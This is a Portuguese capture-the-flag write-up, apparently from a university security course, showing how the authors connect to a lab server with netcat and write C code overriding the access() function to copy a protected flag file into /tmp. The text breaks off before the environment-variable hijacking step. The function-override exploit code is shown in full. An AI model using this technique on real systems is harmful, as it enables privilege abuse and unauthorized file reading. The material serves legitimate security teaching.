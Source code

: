 #Linux Environment CTF

Começamos por correr o comando indicado para nos conectarmos ao servidor:

```bash
$ nc ctf-fsi.fe.up.pt 4006
```
Estando conectados, utilizamos o comando ls para ver os ficheiros do diretorio e encontramos o seguinte:

![](../pictures/ctf4ls.png)

Acreditando que admin_note.txt seria uma pista, decidimos ver o que ele continha.

![](../pictures/admin_note.png)

Graças a essa dica, fomos à pasta /tmp e após tentar criar um ficheiro percebemos que esta era a unica pasta que nao é read-only.

Sendo capazes de criar ficheiros, percebemos que existe a possibilidade de  fazer o que aprendemos no SEED labs da semana 4. Voltamos entao à pasta /flag_reader e procuramos nos seus ficheiros alguma chamada a um comando Linux. Encontramos o seguinte no ficheiro
"main.c":

![](../pictures/catmain.png)

Existe uma chamada ao comando "access".

O nosso objetivo passou entao agora a ser criar um programa chamado "access" capaz de ir buscar a bandeira ao ficheiro a qual nós nao temos acesso e transferi-la para um ficheiro de texto ao qual nós tenhamos acesso.

```bash
$ cd /tmp
$ touch exploit.c
$ echo "#include <fcntl.h>" > exploit.c
$ echo "#include <stdio.h>" >> exploit.c
$ echo "#include <stdlib.h>" >> exploit.c
$ echo "#include <unistd.h>" >> exploit.c
$ echo "#include <sys/types.h>" >> exploit.c
$ echo "int access(const char *pathname, int mode){" >> exploit.c
$ echo "    system(\"/usr/bin/cat /flags/flag.txt > /tmp/result.txt\");" >> exploit.c
$ echo "    return 0;" >> exploit.c
$ echo "}" >> exploit.c
```

Os seguintes comandos criam exatamente esse programa. Mas só criando o programa nao fazemos com que o servidor corra o nosso em vez do original. Temos entao que alterar as variaveis de ambiente para que o corra.
